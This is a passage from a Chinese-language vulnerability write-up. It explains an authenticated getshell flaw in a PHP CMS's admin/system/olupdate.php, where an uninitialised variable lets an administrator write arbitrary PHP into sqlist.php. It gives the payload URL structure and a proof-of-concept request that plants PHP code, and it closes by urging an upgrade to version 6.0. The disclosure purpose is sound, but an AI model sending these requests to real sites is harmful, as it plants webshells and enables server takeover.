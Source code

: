 此时由于sqlfile不是数组，即is_array($sqlfile)不成立，导致$string没有初始化，可以任意修改，接着调用file_put_contents将string的值写到/update/$addr/sqlist.php文件。

*PS:这里有一个小点,由于输入控制sqlfile不是数组，第345行执行$sqlfile[]=$bakfile = "../update/$addr/{$con_dbname}{$date}{$random}{$num}.sql";会导致给字符串赋值报错，导致无法执行到后面的Getshell部分。所以需要构造payload使得trim($sqldump)为空，即$sqldump值为空，从而跳过$sqlfile[]赋值部分，这里构造tableid=1000(其实只要>=44即可)*

最后的payload结构如下：

```
/admin/system/olupdate.php?action=sql&sqlfile=1&string=shell内容&addr=shell的目录&tableid=1000
```

### 2.POC (参数addr为生成shell的目录，生成shell的文件名sqlist.php不可控)

```
http://xxx.com/admin/system/olupdate.php?action=sql&sqlfile=1&string=<?php phpinfo();?>&addr=12313&tableid=1000
```

执行后的shell地址：

```
http://xxx.com/admin/update/12313/sqlist.php
```

## 0x05小结

都是需要后台管理员权限才能利用的漏洞，不过危害还是比较大，没有升级的网站赶紧升级6.0版本哦！
前几个都有一定的条件要求，后面两个比较通杀!